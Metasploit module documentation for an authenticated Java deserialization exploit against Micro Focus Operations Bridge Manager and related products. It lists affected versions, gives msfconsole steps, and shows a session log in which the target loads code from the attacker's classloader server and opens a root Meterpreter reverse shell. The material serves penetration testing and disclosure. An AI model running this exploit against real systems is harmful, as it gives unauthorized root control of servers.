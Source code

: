 ## Vulnerable Application

This module exploits an authenticated Java deserialization that affects a truckload of Micro Focus products: 
* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3
* Data Center Automation version 2019.11 
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 
* Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30 
* Hybrid Cloud Management version 2020.05 
* Service Management Automation versions 2020.5 and 2020.02

Exploiting this vulnerability will result in remote code execution as the root user on Linux or the SYSTEM user on Windows.
Authentication is required, the module user needs to login to the application and obtain the authenticated LWSSO_COOKIE_KEY, which should be fed to the module. 
Any authenticated user can exploit this vulnerability, even the lowest privileged ones.

The exploit uses a modified ysoserial c3p0 payload. The only part that is modified is that c3p0 is built using version 0.9.1.2, so that the serialVersionUid of the target is the same as the exploit. This can be achieved by patching ysoserial's pom.xml.

This module was only tested with Operations Bridge Manager 2020.05. It should work as is with earlier Operations Bridge Manager versions, but it might require small modifications (to the cookie name or vulnerable URI) for the other affected products. However it is equally likely that it works out of the box with the other products, as HPE / Micro Focus is well known for re-using (vulnerable) code.

For more information refer to the advisory link:
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obm_auth_rce`
4. `set rhost TARGET`
5. `set lhost YOUR_IP`
6. `set srvhost YOUR_IP`
7. `set lwsso_cookie_key AUTHENTICATED_COOKIE`
8. `run`
9. You should get a shell.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_obm_auth_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set rhosts 10.0.0.10
rhosts => 10.0.0.10
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set srvhost 10.0.0.1
srvhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lwsso_cookie_key "7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew.."
lwsso_cookie_key => 7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew..
msf6 exploit(multi/http/microfocus_obm_auth_rce) > check
[*] 10.0.0.10:443 - The service is running, but could not be validated.
msf6 exploit(multi/http/microfocus_obm_auth_rce) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] Using URL: http://10.0.0.1:8080/
[+] Started remote classloader server at http://10.0.0.1:8080/
[*] Sending remote classloader gadget to https://10.0.0.10/legacy/topaz/sitescope/conf/registration
[*] Sending stage (58147 bytes) to 10.0.0.10
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.9.8.10:36432) at 2021-01-28 18:13:18 +0700
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > shell
Process 1 created.
Channel 1 created.
uname -a
Linux pwned 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
```
